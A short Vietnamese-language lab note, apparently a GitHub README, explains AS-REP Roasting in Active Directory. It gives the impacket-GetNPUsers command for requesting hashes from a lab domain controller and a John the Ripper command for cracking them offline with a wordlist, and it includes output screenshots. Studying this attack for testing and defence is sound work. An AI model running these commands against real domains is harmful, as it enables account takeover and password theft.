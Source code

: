 ### AS-REP Roasting là cuộc tấn công vào các tài khoản Active Directory có cờ DONT_REQ_PREAUTH được đặt, nghĩa là chúng không yêu cầu xác thực trước bằng Kerberos.

### Bất kỳ kẻ tấn công nào có quyền truy cập miền đều có thể yêu cầu phiếu AS-REP (Phản hồi dịch vụ xác thực) cho các tài khoản đó.

### S-REP trả về được mã hóa bằng hàm băm mật khẩu của người dùng (RC4-HMAC) .

### Sau đó, kẻ tấn công có thể thực hiện bẻ khóa mật khẩu ngoại tuyến trên vé đã mã hóa để khôi phục mật khẩu dạng văn bản rõ của người dùng.

```
impacket-GetNPUsers cs.org/kai.bel:password1 -request -dc-ip 192.168.200.129 -request -format john -outputfile outputfile.txt
```

- yêu cầu phiếu AS-REP (Phản hồi dịch vụ xác thực) cho các tài khoản đó:

<img width="1042" height="255" alt="image" src="https://github.com/user-attachments/assets/ea3ed932-06c5-4400-aa9b-77158ae06c63" />

=> ảnh trả về Hàm băm mật khẩu của người dùng (mã hóa bằng RC4)

<img width="599" height="107" alt="image" src="https://github.com/user-attachments/assets/b463d762-ca0e-4e6a-917c-a51f376af1d1" />

```
john --format:krb5asrep outputfile.txt --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt
```

